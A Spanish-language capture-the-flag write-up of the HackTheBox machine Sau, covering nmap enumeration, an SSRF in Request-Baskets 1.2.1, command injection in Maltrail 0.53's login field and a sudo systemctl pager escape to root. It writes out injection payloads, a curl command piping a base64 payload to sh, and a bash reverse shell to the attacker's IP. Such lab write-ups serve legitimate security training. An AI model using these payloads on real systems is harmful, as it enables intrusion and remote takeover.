



<h3 style="text-align:center">DESCRIPCIÓN</h3><hr>
En este post realizaremos el write up de la máquina Sau. Tocaremos los conceptos de enumeración de Maltrail, Abuso de privilegios sudoers y explotaremos un SSRF(Server Side Request Forgery). Es una máquina facil de la plataforma HackTheBox.


<h3 style="text-align:center">INDICE</h3><hr>

- [Reconocimiento](#fase-de-reconocimiento)
    - [Enumeración de puertos](#enumeracion-de-puertos)
    - [Enumeración de servicios](#enumeracion-de-servicios)
- [Explotación](#explotacion)
    - [RCE](#RCE)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Autores y referencias](#autores-y-referencias)


<h3 style="text-align:center" id="fase-de-reconocimiento">RECONOCIMIENTO</h3><hr>

El objetivo principal de la etapa de reconocimiento es obtener una visión general de la infraestructura, sistemas, aplicaciones y posibles puntos débiles de la organización o sistema que se va a someter a la prueba de penetración. Esta información es esencial para planificar y ejecutar el resto del proceso de pentesting de manera más efectiva.

Durante la etapa de reconocimiento, el equipo de pentesting puede realizar diferentes acciones y técnicas, que incluyen:

1.Búsqueda de información pública: Se recopila información de dominios, subdominios, direcciones IP, registros de DNS, información de contacto de la empresa, etc., que está disponible públicamente a través de fuentes como el sitio web de la empresa, registros WHOIS, redes sociales, motores de búsqueda, entre otros.

2.Escaneo de red: Se utilizan herramientas de escaneo de puertos y servicios para identificar los sistemas en línea y los puertos abiertos en el objetivo. Esto ayuda a tener una idea de la infraestructura de red y los servicios disponibles.

3.Enumeración de servicios: Una vez identificados los servicios y puertos abiertos, se intenta obtener información más detallada sobre los servicios, como las versiones de software, para determinar si existen vulnerabilidades conocidas asociadas con esos servicios.

4.Búsqueda de subdominios y directorios ocultos: Se busca información adicional sobre posibles subdominios, directorios ocultos o páginas web no enlazadas públicamente, lo que podría revelar puntos de entrada adicionales o información sensible.

5.Análisis de arquitectura de red: Se investiga la topología de la red para comprender la relación entre diferentes sistemas y cómo se conectan, lo que ayuda a identificar posibles rutas para movimientos laterales.

6.Búsqueda de vulnerabilidades conocidas: Se investigan bases de datos de vulnerabilidades conocidas y bases de datos de exploits para identificar posibles vulnerabilidades que puedan existir en el software o servicios utilizados por el objetivo.

- Lo primero que vamos hacer es un ping a la maquina victima ping -c 1 10.10.11.224 ping: Es el comando utilizado para enviar solicitudes de eco (ping) a una dirección IP específica para verificar la conectividad de red y la latencia de la conexión. -c 1: Es una opción que se utiliza para especificar el número de solicitudes de eco que se enviarán. En este caso, se envía solo una solicitud (-c 1). 10.10.11.224: Es la dirección IP del host o máquina que será objeto del comando ping.

```ruby
❯ ping -c 1 10.10.11.224
PING 10.10.11.224 (10.10.11.224) 56(84) bytes of data.
64 bytes from 10.10.11.224: icmp_seq=1 ttl=64 time=0.012 ms

--- 10.10.11.224 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.012/0.012/0.012/0.000 ms
```
El TTL---> 64 indica que es una máquina Linux

Con whichSytem.py nos arroja ante que nos estamos enfrentando con solo poner la dirección ip.
```ruby
❯ whichSystem.py 10.10.11.224
10.10.11.224 (ttl -> 64): Linux

```

Si quieren esa utilidad la guardan en el /usr/bin
```python
#!/usr/bin/python3
#coding: utf-8

import re, sys, subprocess

# python3 wichSystem.py 10.10.10.188 

if len(sys.argv) != 2:
    print("\n[!] Uso: python3 " + sys.argv[0] + " <direccion-ip>\n")
    sys.exit(1)

def get_ttl(ip_address):

    proc = subprocess.Popen(["/usr/bin/ping -c 1 %s" % ip_address, ""], stdout=subprocess.PIPE, shell=True)
    (out,err) = proc.communicate()

    out = out.split()
    out = out[12].decode('utf-8')

    ttl_value = re.findall(r"\d{1,3}", out)[0]

    return ttl_value

def get_os(ttl):

    ttl = int(ttl)

    if ttl >= 0 and ttl <= 64:
        return "Linux"
    elif ttl >= 65 and ttl <= 128:
        return "Windows"
    else:
        return "Not Found"

if __name__ == '__main__':

    ip_address = sys.argv[1]

    ttl = get_ttl(ip_address)

    os_name = get_os(ttl)
	print("%s (ttl -> %s): %s" % (ip_address, ttl, os_name))
```


<h3 style="text-align:center" id="enumeracion-de-puertos">ENUMERACIÓN DE PUERTOS</h3><hr>

Realizamos un escaneo de puertos usando la herramienta `nmap`:

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.224 -oG scanPorts`

Veamos el significado de cada opción utilizada en el comando:

- `nmap`: Es el comando para ejecutar la herramienta de escaneo de puertos `nmap`.
    
- `-p-`: Esta opción indica que se deben escanear todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535.
    
- `--open`: Filtra los resultados del escaneo para mostrar solo los puertos que están abiertos, es decir, aquellos que responden a la solicitud de escaneo.
    
- `-sS`: Indica un escaneo de tipo “SYN scan”. Este tipo de escaneo envía paquetes SYN (sincronización) a los puertos y analiza las respuestas para determinar si están abiertos, cerrados o filtrados por firewall.
    
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes. En este caso, se envían al menos 5000 paquetes por segundo.
    
- `-vvv`: Habilita el modo de salida muy detallado, lo que significa que se mostrarán niveles de verbosidad muy altos para obtener información detallada del escaneo.
    
- `-n`: Indica que no se realice la resolución de DNS para las direcciones IP, lo que acelera el escaneo.
    
- `-Pn`: Esta opción indica que no se realice el “ping” para determinar si los hosts están en línea o no. Se ignoran las respuestas del ping y se escanea directamente.
    
- `10.10.11.224`: Es la dirección IP del objetivo que será escaneado.
    
- `-oG scanPorts`: Especifica que se debe guardar la salida del escaneo en un formato “grepable” (formato de texto plano) con el nombre de archivo “scanPorts”.

```ruby
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.224 -oG scanPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 23:12 -05
Initiating SYN Stealth Scan at 23:12
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 23:13, 15.39s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.18s latency).
Scanned at 2024-02-17 23:12:58 -05 for 15s
Not shown: 65427 closed tcp ports (reset), 106 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.47 seconds
           Raw packets sent: 75094 (3.304MB) | Rcvd: 74497 (2.980MB)
```

Escaneamos al objetivo con los scripts básicos de reconocimiento de nmap, apuntando a los puertos abiertos en busca de más información. Los resultados incluirán información sobre los servicios que se están ejecutando en los puertos escaneados y sus versiones correspondientes.

`nmap -sCV -p21,80 10.10.11.224 -oN targeted`

```ruby
# Nmap 7.94SVN scan initiated Sat Feb 17 23:24:51 2024 as: nmap -sCV -p22,55555 -oN targeted 10.10.11.224
Nmap scan report for 10.10.11.224 (10.10.11.224)
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 18 Feb 2024 04:25:34 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 18 Feb 2024 04:24:58 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 18 Feb 2024 04:25:00 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=2/17%Time=65D1869B%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2018\x20Feb\
SF:x202024\x2004:24:58\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2018\x20Feb\
SF:x202024\x2004:25:00\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Sun,\x2018\x20Feb\x202024\x2004:25:34\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 17 23:26:52 2024 -- 1 IP address (1 host up) scanned in 120.78 seconds
```

- Tenemos el puerto 22 abierto SSH pero como la versión es mayor a la 7.7 no podemos realizar enumeración de usuarios y ademas no tenemos credenciales de ingreso.
- Tenemos el puerto 55555, lo que nos indica que es una interfaz web.

<h3 style="text-align:center" id="enumeracion-de-servicios">ENUMERACIÓN DE SERVICIOS</h3><hr>

- Con whatweb podemos realizar un escaneo para ver las tecnologías que están corriendo por detrás, las versiones. 

```ruby
❯ whatweb 10.10.11.224:55555
http://10.10.11.224:55555 [302 Found] Country[RESERVED][ZZ], IP[10.10.11.224], RedirectLocation[/web]
http://10.10.11.224:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.10.11.224], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
```

- Tenemos el código 302 que nos indica que esta redirigiendo la pagina a http://10.10.11.224:55555/web asi que vamos a ver de que se trata:

- Vemos en la parte inferior request-baskets con versión 1.2.1, eso para un atacante es oro porque nos indica la versión y servicio, se puede indagar de que se trata y buscar posibles vulnerabilidades. 
- Si lo abrimos nos lleva a repositorio de Github y nos indica que la ultima versión es la 1.2.3

- Si realizamos la búsqueda de vulnerabilidades tiene en la web, vemos que es vulnerable a SSRF - Server Side Request Forgery


[https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)

1.SSRF on Request-Baskets (CVE-2023–27163):
CVE-2023-27163 representa una vulnerabilidad crítica de Falsificación de Peticiones del Lado del Servidor (SSRF) que fue identificada en Request-Baskets, afectando a todas las versiones hasta la 1.2.1 inclusive. Esta vulnerabilidad en particular ofrece a los actores maliciosos la capacidad de obtener acceso no autorizado a recursos de red e información confidencial mediante la explotación del componente /api/baskets/{name} a través de solicitudes de API cuidadosamente diseñadas.

Por ejemplo, considere un escenario en el que el servidor aloja Request-Baskets en el puerto 55555 y simultáneamente ejecuta un servidor web Flask en el puerto 8000. Sin embargo, el servidor Flask está configurado para interactuar exclusivamente con el host local. En este contexto, un atacante puede explotar la vulnerabilidad SSRF creando una cesta que reenvía solicitudes a `http://localhost:8000`, evitando de manera efectiva las restricciones de red anteriores y obteniendo acceso al servidor web Flask, que debería haber estado restringido solo al acceso local.

Que es un SSRF:
SSRF (Server-Side Request Forgery) es una vulnerabilidad de seguridad en la que un atacante puede persuadir a una aplicación para que realice solicitudes a recursos internos o externos, incluso si esos recursos no deberían ser accesibles directamente. Esto ocurre cuando una aplicación web permite al usuario especificar la ubicación de los recursos a los que se realizan las solicitudes sin una adecuada validación.

En un ataque de SSRF, un atacante podría manipular las solicitudes que realiza la aplicación para apuntar a recursos internos sensibles, como archivos locales, servicios en la red interna o incluso recursos en la nube. Esto puede tener consecuencias graves, incluida la exposición de información confidencial, la ejecución de comandos no autorizados o la realización de acciones maliciosas en nombre del servidor afectado.

- Realizamos algunas pruebas en la pagina web:

1.  creamos un basket llamado test 


- Al abrilo nos parece lo siguiente:

- Vamos a la ruta, no me aparece nada, pero vemos que se realizo una solicitud.

- Existe un panel de configuración donde puedo especificar una ruta para reenviar la solicitud, en este caso creamos un servidor en python por el puerto 80 en mi maquina de atacante 

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


- poc viene de proof of concept
- Recargamos la url http://10.10.11.224:55555/test/ 

- Pero vemos la solicitud en el servidor creado por nuestro lado 

- Creamos un archivo index.html y ponemos cualquier cosa para ver si al realizar la petición vemos el contenido, pero esta ves cambiamos la url de redirección para que llame al index.



- Recargamos la pagina y vemos que realizó la petición con éxito. 


- Realizando estas pruebas nos indica que podemos poner URLS que aplique un forward que procese la solicitud que estamos enviando, en ese orden de ideas la url que pondría seria http:127.0.0.1:80 para que realice la petición a su propia web interna.


- Recargamos la pagina y vemos un servicio llamado Maltrail con un versión 0.53

- Lo primero que haremos es ver si esta versión es vulnerable 


<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>

La fase de explotación en una prueba de penetración (pentesting) es la etapa en la que los profesionales de seguridad intentan activamente aprovechar las vulnerabilidades identificadas en el sistema objetivo. En esta fase, los pentesters intentan explotar debilidades y brechas de seguridad con el objetivo de demostrar la capacidad de un atacante malintencionado para comprometer el sistema.

Aquí hay algunas actividades clave que suelen llevarse a cabo durante la fase de explotación:

Identificación de Vulnerabilidades: Después de completar la fase de escaneo, donde se identifican activos y servicios, se procede a identificar vulnerabilidades en esos servicios y aplicaciones. Esto puede hacerse mediante el uso de herramientas automáticas y análisis manual.

Selección de Objetivos: Con la información sobre las vulnerabilidades disponibles, los pentesters eligen objetivos específicos para intentar explotar. Esto puede incluir sistemas, aplicaciones o servicios específicos que son críticos para la organización.

Desarrollo de Exploits: Los pentesters pueden desarrollar o utilizar exploits existentes para aprovechar las vulnerabilidades identificadas. Un exploit es un conjunto de instrucciones o código diseñado para aprovechar una vulnerabilidad específica y lograr un objetivo, como obtener acceso no autorizado.

Ejecución de Exploits: Una vez que se tiene un exploit listo, se ejecuta contra los objetivos seleccionados. Esto implica intentar activamente aprovechar las vulnerabilidades para lograr un acceso no autorizado, escalada de privilegios u otros objetivos definidos en el alcance del pentesting.

Documentación: Se documentan cuidadosamente todas las actividades de explotación, incluidos los éxitos y los fallos. Esto ayuda a los equipos de seguridad a comprender cómo se podrían haber evitado los exploits y cómo mejorar la postura de seguridad.

<h3 style="text-align:center" id="RCE">RCE</h3><hr>

Encontramos que esta version es vulnerable a RCE y que esto?
RCE significa Remote Code Execution (Ejecución Remota de Código). Se refiere a una vulnerabilidad de seguridad en la que un atacante puede ejecutar código de manera remota en un sistema o aplicación objetivo. Esto puede ser extremadamente peligroso, ya que permite al atacante tomar el control total sobre el sistema afectado.

Cuando hay una vulnerabilidad de RCE, un atacante puede aprovecharla para enviar y ejecutar comandos arbitrarios en el sistema atacado, a menudo con privilegios elevados. Esto puede llevar a una variedad de acciones maliciosas, como la instalación de malware, la manipulación de datos, la obtención de acceso no autorizado a sistemas, la destrucción de datos o incluso el control total sobre el servidor afectado.

Al ver el exploit vemos que el comando que ejecuta es ``command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"`` y podemos realizar pruebas con este comando sin necesidad de ejecutar el script.


- Lo primero es identificar el target_url, cual es ese objetivo, pues realizamos una prueba para verificar la ruta

- Vemos que hace una petición por post a la ruta 10.10.11.224:55555/test/login 
- Vamos a realizar una prueba con tcpdump para recibir respuestas  icmp para desde la maquina de la victima intentar enviarme un ping a mi maquina de atacante 

```ruby
curl http://10.10.11.224:55555/test/login --data-urlencode 'username=;`ping -c 1 10.10.16.2`'
```

El comando `curl` que proporcionaste se utiliza para realizar una solicitud HTTP POST a la URL [http://10.10.11.224:55555/test/login](http://10.10.11.224:55555/test/login), enviando datos de formulario. Aquí está la explicación detallada:

- `curl`: Es una herramienta de línea de comandos que se utiliza para transferir datos con URL. En este caso, se está utilizando para hacer una solicitud HTTP.
    
- `http://10.10.11.224:55555/test/login`: Es la URL a la que se realiza la solicitud HTTP POST.
    
- `--data-urlencode 'username=;`ping -c 1 10.10.16.2`'`: Este parámetro se utiliza para enviar datos de formulario en la solicitud POST. La parte 'username=;`ping -c 1 10.10.16.2`' es un campo de formulario llamado 'username' con un valor específico.
    
- `username=;`ping -c 1 10.10.16.2`'`: Aquí, el valor del campo de formulario 'username' está siendo manipulado. El punto y coma (`;`) se utiliza para separar comandos en la línea de comandos. El contenido entre las comillas inversas (`) es un comando que se ejecutará en el sistema. En este caso, es un comando de ping que intentará enviar un paquete a la dirección IP 10.10.16.2.

Este tipo de manipulación en el campo de formulario es conocido como inyección de comandos y es una técnica común en ataques de seguridad, como la Inyección de Comandos Remotos (RCE). En situaciones normales, la entrada del usuario debería ser validada y escapada adecuadamente para prevenir este tipo de ejecución de comandos no autorizados. En este caso, se está tratando de aprovechar una posible vulnerabilidad para ejecutar un comando de ping en el servidor destino.


``tcpdump -i tun0 icmp -nv``
El comando `tcpdump -i tun0 icmp -nv` se utiliza para capturar y mostrar tráfico de red en una interfaz específica (`tun0` en este caso) que está relacionada con el protocolo ICMP (Internet Control Message Protocol). Aquí está el significado de cada parte del comando:

- `tcpdump`: Es una herramienta de línea de comandos utilizada para capturar y analizar el tráfico de red.
    
- `-i tun0`: Especifica la interfaz de red que se debe monitorear. En este caso, `tun0` es el nombre de la interfaz.
    
- `icmp`: Filtra el tráfico para mostrar solo los paquetes relacionados con ICMP. ICMP se utiliza comúnmente para enviar mensajes de control y error en la red, incluidos los mensajes de ping.
    
- `-nv`: Estos son modificadores que controlan el formato de la salida. `-n` evita la resolución de nombres de hosts, mostrando direcciones IP en lugar de nombres de dominio. `-v` (verbose) proporciona información detallada sobre los paquetes capturados.
    

En resumen, este comando `tcpdump` captura y muestra en tiempo real el tráfico ICMP en la interfaz de red `tun0`, proporcionando detalles sobre los paquetes ICMP sin la resolución de nombres de hosts. Este tipo de comando puede ser útil para el diagnóstico y monitoreo de la conectividad de red, especialmente cuando se trabaja con túneles VPN (`tun0` es a menudo asociado con túneles VPN en sistemas basados en Linux).

- Vemos que realizo la petición y tenemos respuesta del comando, lo que quiere decir que del panel de autenticación el parámetro username es vulnerable a RCE. 
- Realizamos una prueba para ver si nos envia por nc la respuesta de un whoami.


- identificamos al usuario puma, como esta ejecutando comandos lo que vamos intentar es enviarnos una shell:
1. Verificamos si curl esta instalado en la maquina victima enviandome una peticion por get a mi maquina de atacante.

2. Como vemos que esta instalado  creamos un archivo index.html con el comando de bahs para entablar una reverse Shell `bash -i >& /dev/tcp/10.10.16.2/443 0>&1`.

3. Le decimos que interprete la petición en bahs para que pueda leer el contenido del scrip en bahs.


- De esta manera ya tenemos la shell, ahora necesita un tratamiento de la TTY
- Vamos al usuario y vemos la primera flag.


<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>


- `id` para ver los grupos a los que pertenezco
- `sudo -l` para ver si tengo privilegios a nivel de sudoers 

- vemos que puedo ejecutar sin proporcional contraseña este comando :  /usr/bin/systemctl status trail.service
- Ejecutamos `sudo /usr/bin/systemctl status trail.service`

- La idea es ponerlo en formato paginate para poder inyectar un comando
- ``stty rows 44 columns 50``

- En la parte final es donde inyectamos el comando 



<h3 style="text-align:center" id="autores-y-referencias">AUTORES y REFERENCIAS</h3><hr>

Autor del write up: John Osorio (Balthael) <a href="https://app.hackthebox.com/profile/1366059" target="_blank">HTB</a>. Si quieres contactarme por cualquier motivo lo puedes hacer a través de <a href="https://www.instagram.com/joh_sb/" target="_blank">Instagram</a>.

Autor de la máquina:  <em>sau123</em>, muchas gracias por la creación de Sau, la disfrute mucho. <a href="https://app.hackthebox.com/users/201596" target="_blank">HTB</a>.
